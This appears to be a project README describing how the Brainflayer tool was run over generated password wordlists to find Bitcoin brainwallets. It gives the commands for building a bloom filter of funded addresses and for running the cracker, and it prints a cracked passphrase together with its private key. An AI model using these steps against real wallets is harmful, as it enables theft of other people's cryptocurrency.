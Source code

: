 # #OpRoboFlayer : RoboForm + Brainflayer

tl;dr: No funds at risk (yay!)

Lets see if any of the roboform lists open any brainwallets. It is unlikely to find any holding funds, but it might give some interesting insight about if and when these techniques were discovered and exploited by criminals.

## Brainflayer

The primary work here was done by Ryan in their Brainflayer project.

https://github.com/ryancdotorg/brainflayer

Ryan's DEFCON talk: https://www.youtube.com/watch?v=foil0hzl4Pg

Great walkthrough for converting address lists to bloom filters for Brainflayer:

https://www.youtube.com/watch?v=Sj3V2mjaWpQ

## Create bloom filter file
```
$ cut -d$'\t' -f1 blockchair_bitcoin_addresses_and_balance_LATEST.tsv | grep '^1' > btc_funded.txt
$ ./bitcoin-tool --batch --input-type address --output-type public-key-rmd --input-format base58check --network bitcoin --output-format hex --input-file ../btc_funded.txt > ../btc_funded.hex
$ ./hex2blf ../btc_funded.hex ../btc_funded.blf
```

## Spot check Brainflayer to ensure it's working
```
$ ~/brainflayer/brainflayer -v -b ~/btc_funded.blf -i ~/rockyou.txt -o something-rock.txt
 rate: 180228.58 p/s found:     1/28688782   elapsed:  159.180 s
$ cat something-rock.txt
374e5f09cfc1e8b9fe58b2d34242f205c8e34691:u:sha256:iloveeverything
```
Haha, so looks like there's some money in the "iloveeverything" brainwallet.

`163S3t3mHyKFTL7EhjUEWfVg3tePNNKQdS|iloveeverything|5KjviYPZvM7v1ZwJdYtLGoR4SRYXvfFExc3oHJXwdZkwoaK2oF4|0.0000117`

https://www.blockchain.com/explorer/addresses/btc/163S3t3mHyKFTL7EhjUEWfVg3tePNNKQdS

Looks like someone (not me) moved them on July 14th. They moved 79 cents with a fee of 60 cents, pocketing a sweet 19 cents. Good for them.

## Using the ps1 script to generate a bunch of wordlists

Set-ExecutionPolicy RemoteSigned -Scope CurrentUser -Force; .\generate.ps1

Generating about 60k words per second per CPU core

Generated wordlists for 2012-2016 inclusive for lengths of 8(default), 10, 12, 14, 16, 18, and 20, using uld and ulds (upper, lower, digits, specials)

Ran the wordlists through brainflayer as shown above, with no hits. Releasing wordlists so others can use them to try more localized recovery efforts (decrypting personal wallets etc).

## Download Wordlists

https://mega.nz/folder/GYUhQbpY#0V4dPnl-BBlmCVeIkLN2bQ
